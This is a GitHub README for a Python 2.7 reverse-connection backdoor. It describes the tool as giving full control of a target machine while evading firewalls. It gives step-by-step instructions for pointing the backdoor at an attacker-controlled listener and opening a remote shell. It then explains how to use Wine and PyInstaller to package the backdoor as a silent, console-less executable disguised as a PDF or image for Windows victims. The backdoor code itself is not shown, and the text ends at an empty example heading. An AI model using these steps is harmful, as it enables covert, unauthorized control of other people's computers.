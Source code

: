 # Reverse-Acess-Backdoor
It is a two-way python based program that can be used to gain full-control over the target. It uses a reverse connection from the target computer so that the firewall would not block it as suspicious port opening since it opens the port on the target machine itself and then sends the connection request to the attacker machine/control machine as well.
Note - Based on python 2.7 (python 3 variant in the works !)

## Getting Started

### Basic Usage
##### (Linux)
Steps to get your program running. 

1. Clone the repo via SSH or by download the repo as a ZIP file.
2. Extract the ZIP files. (For SSH users, skip to step 3).
3. Copy the listener program on your attacker or control machine and backdoor on your target machine. 
4. In the "listener.py" file, open with a text editor and set the ip ="<Control Machine IP Address">.
5. Modify the port field to your accordance, set it to a valid port number that is not blocked.
6. Make the same changes to the "backdoor.py" file on the target machine.
7. Run the program on the attacker machine on the linux terminal first as follows.
```
python listener.py
```
8. Repeat the previous step on the target machine but with the backdoor. 
```
python backdoor.py
```

The attacker machine will show a successfull connection confirmation on the terminal window. Use the terminal as if you were on your host machine (sudo access not yet added, although it's in the works).


### Advanced Usage
#### (Target Windows Machine)
The basic mode was just to explain how the reverse backdoor is working. The advanced impelementaion focuses on how to use this program as an exploit with target computers. Packaging is the technique that we will be using to package our python code as executables which will look like any normal program that we desire. It can be packaged with a .pdf, .jpeg, .exe or any other extension. We will only need to package the backdoor since the attacker is knowingly running the listener.

-> It is advised to package from the same OS that the backdoor will be running on.

Steps to package backdoor.

1. Install python for windows on your linux computer from the link below.
```
https://www.python.org/downloads/windows/
```
2. Install wine on your packaging machine. 
```
sudo apt-get install wine 
```
For 32-bit systems.
```
sudo apt-get install wine32
```
3. Unpackage using Wine(Wine is not an emulator). 
```
root@kali:~/Downloads# wine msiexec /i python-2.7.15.amd64.msi 
```
It will install wine on your Linux.

4. List your hidden wine directory. By doing the following command in your root/home directory.
```
ls -a
```
5. Enter your python.exe path for wine and install pyinstaller as follows.
This will install pyinstaller.exe to your Python27/Scripts folder.
```
wine /root/.wine/drive_c/Python27/python.exe -m pip install pyinstaller
```
6. Package the file as follows to an .exe program which runs silently on a windows machine. (Run this command from the folder of your python program.
``
wine /root/.wine/drive_c/Python27/Scripts/pyinstaller.exe <program.py> --onefile --noconsole

## Example
### Basic Implementation


